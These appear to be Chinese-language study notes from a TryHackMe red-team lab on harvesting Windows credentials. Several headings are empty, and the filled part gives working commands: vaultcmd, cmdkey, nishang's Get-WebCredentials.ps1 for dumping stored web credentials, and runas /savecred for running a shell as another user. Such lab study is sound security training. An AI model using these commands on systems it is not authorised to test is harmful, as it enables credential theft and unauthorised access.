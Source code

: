 # 凭据收集

## 本地Windows凭据

### 键盘记录器

详见THM Exploiting AD （Task 5）


### SAM

### Metasploit 的 HashDump

### 卷影复制服务


## Windows 凭据管理器

凭据管理器是一项 Windows 功能，用于存储网站、应用程序和网络的登录敏感信息。它包含登录凭证，例如用户名、密码和 Internet 地址。有四个凭证类别：

Web 凭证包含存储在 Internet 浏览器或其他应用程序中的身份验证详细信息。
Windows 凭证包含 Windows 身份验证详细信息，例如 NTLM 或 Kerberos。
通用凭证包含基本身份验证详细信息，例如明文用户名和密码。
基于证书的凭据：这些是基于证书的身份验证详细信

### 访问

列出 Credentials Manager 中的可用凭证：
```
vaultcmd /list
```

检查 “Web Credentials” 中是否有任何存储的凭证：
```
VaultCmd /listproperties:"Web Credentials"
```

列出 “Web 凭据” 的凭据详细信息:
```
VaultCmd /listcreds:"Web Credentials"
```

### 凭据转储

VaultCmd 无法显示密码，但我们可以依赖其他 PowerShell 脚本，例如 Get-WebCredentials.ps1.
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

```powershell
PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials
```

### RunAs

利用存储的凭证的另一种方法是使用 RunAs。RunAs 是一个命令行内置工具，允许在不同用户的权限下运行 Windows 应用程序或工具。RunAs 工具具有可在 Windows 系统中使用的各种命令参数。/savecred该参数允许您将用户的凭证保存在 Windows 凭证管理器中（在 Windows 凭证部分下）。因此，下次我们以同一用户身份执行时，runas 不会要求输入密码。

枚举存储的 Windows 凭据
```
cmdkey /list
```

使用 /savecred 参数以用户身份运行 CMD.exe
```
runas /savecred /user:THM.red\thm-local cmd.exe
```

